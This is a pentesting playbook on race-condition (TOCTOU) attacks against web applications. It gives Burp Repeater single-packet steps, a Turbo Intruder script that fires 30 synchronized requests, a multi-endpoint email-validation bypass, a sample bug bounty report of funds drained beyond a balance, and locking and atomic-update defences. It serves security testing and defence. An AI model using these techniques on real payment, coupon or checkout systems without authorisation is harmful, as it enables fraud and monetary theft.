

# Race Condition (TOCTOU) Exploitation

## When to Use
- When testing critical business logic that updates a finite state (balances, stock/inventory, one-time coupons, likes/votes).
- When a single action should be permitted once per user, but you suspect the back-end database locking mechanism (e.g., ACID transactions or Mutexes) is flawed.
- When an application executes a "Check" (Do they have enough money?) followed by a delayed "Use" (Deduct the money). Note: This split-second window between check and use is the target.

## Workflow

### Phase 1: Identifying Race Windows

```text
# Concept: You need to identify endpoints that perform sequence-dependent logic.
# A classic example: Applying a $50 discount code to a cart.

# The Flawed Backend Logic (Conceptual):
# 1. Check if 'DISCOUNT_CODE' is unused for User A. (Time of Check)
# 2. Add $50 discount to User A's cart.
# 3. Mark 'DISCOUNT_CODE' as used for User A. (Time of Use)

# Goal: Send 20 concurrent requests. If requests 2-20 hit the server BEFORE 
# request 1 marks the code as used in step 3, the server will apply the discount 20 times.
```

### Phase 2: Single-Packet Attack (Burp Suite Pro)

```text
# Concept: Network latency and jitter often ruin race conditions because your 
# 20 requests arrive at slightly different milliseconds.
# Modern technique: HTTP/2 Single-Packet Attack (sending multiple requests within a single TCP packet).

# 1. Send the target request to Burp Repeater (e.g., POST /api/apply_coupon).
# 2. Group the requests: 
#    - Duplicate the tab 20 times.
#    - Select all 20 tabs, right-click -> "Add tab to group" -> Create new group.
# 3. Execution:
#    - Click the dropdown arrow next to the "Send" button.
#    - Select "Send group in parallel (last-byte sync)".
#    - Click Send.

# 4. Analysis:
# If you receive multiple "200 OK - Coupon Applied" responses, you successfully raced the endpoint.
```

### Phase 3: Turbo Intruder (High-Velocity Exploitation)

```python
# Concept: If Single-Packet Attack isn't suitable, use PortSwigger's Turbo Intruder extension
# to blast hundreds of requests utilizing a custom Python pipeline for raw socket speed.

# 1. Send request to Turbo Intruder.
# 2. Use the standard race condition script:

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=100,
                           pipeline=False)

    request = target.req
    
    # Queue up 30 requests to be released simultaneously
    for i in range(30):
        engine.queue(request, gate='race1')

    # Release all 30 requests perfectly synchronized
    engine.openGate('race1')

def handleResponse(req, interesting):
    table.add(req)

# 3. Click "Attack".
```

### Phase 4: Multi-Endpoint Race Conditions

```text
# Concept: Racing isn't just for duplicating single actions. It applies to conflicting actions.
# Example: Bypassing an email validation restriction.

# Endpoint A: POST /update_email (requires validation)
# Endpoint B: POST /checkout (requires verified email)

# The Flaw:
# 1. Attacker sets email to verified@trusted.com.
# 2. Attacker initiates checkout.
# 3. WHILE checkout is processing, attacker races a request to change email back to attacker@evil.com.
# 4. Checkout completes using attacker@evil.com, bypassing validation.

# Tooling: Group differing tabs in Burp Repeater and "Send in parallel".
```

#### Decision Point 🔀


## 🔵 Blue Team Detection & Defense
- **Pessimistic Locking**: In a relational database, enforce `SELECT ... FOR UPDATE` when reading the user's balance or coupon state. This locks the database row until the entire transaction (Check AND Use) commit is fully resolved, forcing concurrent requests to queue sequentially.
- **Atomic Operations**: Use native database atomic operations rather than fetching, modifying, and writing in application code.
  - VULNERABLE: `balance = db.get("balance"); db.update(balance - 50)`
  - SECURE: `UPDATE users SET balance = balance - 50 WHERE balance >= 50`
- **Rate Limiting (Partial fix)**: Extremely aggressive rate-limiting can mitigate generic flooding, but will not stop an HTTP/2 Single-Packet attack where 30 requests arrive simultaneously in one network frame.

## Key Concepts
| Concept | Description |
|---------|-------------|
| Race Condition | A flaw occurring when the timing of events affects the correctness of a system, specifically when concurrent threads access shared data blindly |
| TOCTOU | Time-Of-Check to Time-Of-Use; the specific time window between validating a condition and acting upon that condition |
| Single-Packet Attack | A technique utilizing HTTP/2 multiplexing to place the trailing byte of multiple requests into a single synchronized TCP packet |

## Output Format
```
Bug Bounty Report: Financial Exploitation via Race Condition
============================================================
Vulnerability: State-Spanning TOCTOU Race Condition
Severity: Critical (CVSS 9.0)
Target: POST /api/wallet/transfer

Description:
The money transfer API endpoint is vulnerable to a Time-of-Check to Time-of-Use (TOCTOU) race condition. The backend logic checks the user's account balance, but fails to implement pessimistic row locking during the database transaction that subsequently deducts the funds. 

Reproduction Steps:
1. Create an account with a balance of $100.
2. Intercept a transfer request sending $100 to an attacker-controlled account.
3. Send the request to Burp Repeater and duplicate the tab 20 times.
4. Add all 20 tabs to a new Group.
5. In the Send dropdown, select "Send group in parallel (last-byte sync)".
6. Click Send.

Impact:
The server processes multiple requests simultaneously, validating the $100 balance for the first ~5 threads before the deduction occurs. The attacker successfully transferred $500 out of an account containing only $100, driving the database ledger into the negative. This allows infinite infinite monetary theft.
```

## References
- PortSwigger: [Race conditions](https://portswigger.net/web-security/race-conditions)
- DEF CON 31: [Smashing the State Machine (Single-Packet Attack)](https://www.youtube.com/watch?v=kjt1X-S9k-Y)
- OWASP: [Testing for Race Conditions](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/03-Testing_for_Privilege_Escalation)
